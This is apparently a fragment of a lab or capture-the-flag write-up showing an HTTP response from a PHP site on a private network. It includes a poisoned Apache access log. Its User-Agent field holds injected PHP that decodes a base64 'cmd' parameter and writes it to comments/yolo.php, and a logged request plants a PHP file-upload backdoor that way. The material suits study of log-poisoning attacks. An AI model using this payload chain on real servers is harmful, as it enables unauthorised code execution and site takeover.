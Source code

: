 <i><b>HTTP Response :</b></i> 

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
HTTP/1.1 200 OK
Date: Sun, 27 Dec 2020 14:29:07 GMT
Server: Apache/2.2.3 (CentOS)
X-Powered-By: PHP/5.1.6
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Content-Length: 781
Connection: close
Content-Type: text/html; charset=UTF-8

&lt;!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN" >
&lt;html>
[.....]

&lt;/strong>&lt;/h3>&lt;/p>&lt;p>&lt;h3>This is your personal space, you can post your comments and list your monthly report:&lt;/h3>&lt;/p>&lt;p>&lt;pre><span style="color:#cd0000;"><b>192.168.201.1 - - [27/Dec/2020:06:38:28 -0500] "GET /community.jpg HTTP/1.1" 404 286 "http://192.168.201.3/listings.php" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
192.168.201.1 - - [27/Dec/2020:06:38:35 -0500] "GET / HTTP/1.1" 302 1421 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
192.168.201.1 - - [27/Dec/2020:06:38:35 -0500] "GET /listings.php HTTP/1.1" 200 680 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
192.168.201.1 - - [27/Dec/2020:06:38:35 -0500] "GET /community.jpg HTTP/1.1" 404 286 "http://192.168.201.3/listings.php" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
192.168.201.1 - - [27/Dec/2020:06:39:17 -0500] "GET /listings.php HTTP/1.1" 200 973 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
192.168.201.1 - - [27/Dec/2020:06:40:35 -0500] "GET / HTTP/1.1" 200 1421 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
[.....]
192.168.201.1 - - [27/Dec/2020:09:29:05 -0500] "GET /listings.php?cmd=PGZvcm0gZ
W5jdHlwZT0ibXVsdGlwYXJ0L2Zvcm0tZGF0YSIgYWN0aW9uPSJ5b2xvLnBocCIgbWV0aG9kPSJQT1NU
Ij48aW5wdXQgdHlwZT0iaGlkZGVuIiBuYW1lPSJNQVhfRklMRV9TSVpFIiB2YWx1ZT0iNTEyMDAwIi8
%2BIFVwbG9hZCBmaWxlOiA8aW5wdXQgbmFtZT0idXNlcmZpbGUiIHR5cGU9ImZpbGUiIC8%2BPGlucH
V0IHR5cGU9InN1Ym1pdCIgdmFsdWU9IlNlbmQgRmlsZSIgLz48L2Zvcm0%2BPD9waHAgJHVwbG9hZGZ
pbGUgPSBiYXNlbmFtZSgkX0ZJTEVTWyd1c2VyZmlsZSddWyduYW1lJ10pO2VjaG8gIjxwPiI7aWYobW
92ZV91cGxvYWRlZF9maWxlKCRfRklMRVNbJ3VzZXJmaWxlJ11bJ3RtcF9uYW1lJ10sICR1cGxvYWRma
WxlKSl7ZWNobyAiRmlsZSBpcyB2YWxpZCwgYW5kIHdhcyBzdWNjZXNzZnVsbHkgdXBsb2FkZWQuCiI7
fWVsc2Uge2VjaG8gIlVwbG9hZCBmYWlsZWQiO31lY2hvICI8L3A%2BIjtlY2hvICc8cHJlPic7ZWNob
yAnSGVyZSBpcyBzb21lIG1vcmUgZGVidWdnaW5nIGluZm86JztwcmludF9yKCRfRklMRVMpO3ByaW50
ICI8L3ByZT4iOz8%2B HTTP/1.1" 200 781 "-" "&lt;!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "DTD/xhtml1-transitional.dtd">
[......]
HTTP_USER_AGENT &lt;/td>&lt;td class="v">&lt;?php $data=base64_decode($_GET[&#039;cmd&#039;]);$file=fopen(&#039;./comments/yolo.php&#039;,&#039;w&#039;);fwrite($file,$data);fclose($file);phpinfo();?&gt; &lt;/td>&lt;/tr>
[.......]</b></span>
</pre>
